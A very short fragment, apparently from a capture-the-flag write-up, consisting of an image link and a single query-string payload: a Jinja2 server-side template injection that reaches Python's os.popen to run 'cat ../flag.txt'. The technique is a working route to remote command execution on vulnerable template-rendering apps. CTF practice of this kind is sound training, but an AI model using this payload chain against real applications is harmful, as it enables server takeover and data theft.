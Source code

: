 `?name={{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat ../flag.txt').read() }}`